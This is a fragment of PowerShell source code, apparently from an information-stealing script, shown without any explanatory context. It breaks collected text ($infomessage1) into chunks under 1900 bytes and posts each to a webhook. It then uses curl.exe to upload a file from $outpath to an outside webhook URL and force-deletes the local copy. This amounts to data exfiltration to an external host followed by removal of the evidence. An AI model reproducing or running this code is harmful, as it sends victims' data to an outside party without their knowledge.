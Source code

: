 $resultLines = $infomessage1 -split "`n"
        $currentBatch = ""
        foreach ($line in $resultLines) {
            $lineSize = [System.Text.Encoding]::Unicode.GetByteCount($line)

            if (([System.Text.Encoding]::Unicode.GetByteCount($currentBatch) + $lineSize) -gt 1900) {
                Send-WebhookMessage -content "``````$currentBatch`````` "
                Start-Sleep -Seconds 1
                $currentBatch = ""
            }

            $currentBatch += $line + "`n" 
        }

        if ($currentBatch -ne "") {
            Send-WebhookMessage -content "``````$currentBatch`````` "
        }


curl.exe -F file1=@"$outpath" $hookurl
Sleep 1
Remove-Item -Path $outpath -force
